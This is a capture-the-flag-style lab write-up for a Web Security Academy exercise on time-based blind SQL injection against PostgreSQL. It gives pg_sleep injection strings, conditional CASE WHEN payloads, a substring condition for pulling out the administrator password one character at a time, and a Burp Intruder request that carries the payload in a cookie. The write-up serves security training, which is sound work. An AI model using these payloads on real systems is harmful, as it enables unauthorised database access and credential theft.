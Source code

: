 # Lab: Blind SQL injection with time delays and information retrieval
## Description

1) Find the Blind SQLi. `'%3b%20SELECT%20pg_sleep(10)%20--` (PostgreSQL)

2) Use conditional time delays to extract data. First, we created a proof of concept:

```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(1) ELSE pg_sleep(0) END--  (1 sec delay)
```
```sql
';SELECT CASE WHEN (1=0) THEN pg_sleep(1) ELSE pg_sleep(0) END--  (no delay)
```
Next, lets combine the SELECT query to extract the password with the condition above

```
username = 'administrator' AND SUBSTRING(Password, 1, 1) = 'm'
```

## Solution

Use Intruder in Cluster Bomb mode. Configure resource pool to use max. 1 concurrent requst.

Configure Payload sets:
1) Numbers 1-20 with 1 step
2) Simple list with chars a-z0-9

Target request
```yaml
GET /filter?category=Gifts HTTP/1.1
Host: ac5c1fcc1e69f5dec00919e100b200fb.web-security-academy.net
Cookie: TrackingId=tGVgOpzWs24rJiHF'%3bSELECT+CASE+WHEN+(SELECT+username+%3d+'administrator'+AND+SUBSTRING(password,§NUMBERS§,1)+%3d+'§SIMPLELIST§')+THEN+pg_sleep(1)+ELSE+pg_sleep(0)+END+FROM+users--; session=KWdVkFOvwYIopzdj1TSBLQHZC9HLwcQH
```